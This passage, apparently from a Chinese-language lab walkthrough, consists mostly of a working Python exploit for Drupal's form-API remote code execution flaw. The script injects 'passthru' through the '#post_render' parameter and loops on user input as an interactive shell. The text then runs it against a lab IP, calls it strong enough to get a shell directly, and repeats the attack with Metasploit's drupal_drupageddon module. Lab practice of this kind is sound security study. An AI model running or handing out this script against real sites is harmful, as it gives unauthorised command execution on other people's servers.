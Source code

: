 ```
import requests
import re
from sys import argv

domain = argv[1]


def exploit(command):
	HOST=domain

	get_params = {'q':'user/password', 'name[#post_render][]':'passthru', 'name[#markup]':command, 'name[#type]':'markup'}
	post_params = {'form_id':'user_pass', '_triggering_element_name':'name'}
	r = requests.post(HOST, data=post_params, params=get_params)

	m = re.search(r'<input type="hidden" name="form_build_id" value="([^"]+)" />', r.text)
	if m:
	    found = m.group(1)
	    get_params = {'q':'file/ajax/name/#value/' + found}
	    post_params = {'form_build_id':found}
	    r = requests.post(HOST, data=post_params, params=get_params)
	    print("\n".join(r.text.split("\n")[:-1]))


while True:
	command = input('$ ')
	exploit(command)
```

## 攻击

先尝试用这个脚本，将代码保存在rce.py中

```
python3 rce.py http://192.168.10.100/
```

![image-20211219163714876](https://raw.githubusercontent.com/todis21/image/main/img/image-20211219163714876.png)

脚本很强，可以使用，直getshell了，但是使用起来不方便

尝试在msfconsole中查找脚本

![image-20211219164042118](https://raw.githubusercontent.com/todis21/image/main/img/image-20211219164042118.png)

找到8个，并且`exploit/multi/http/drupal_drupageddon `的和http有关，应该是这个了

设置好配置后尝试攻击

![image-20211219164634308](https://raw.githubusercontent.com/todis21/image/main/img/image-20211219164634308.png)

攻击成功
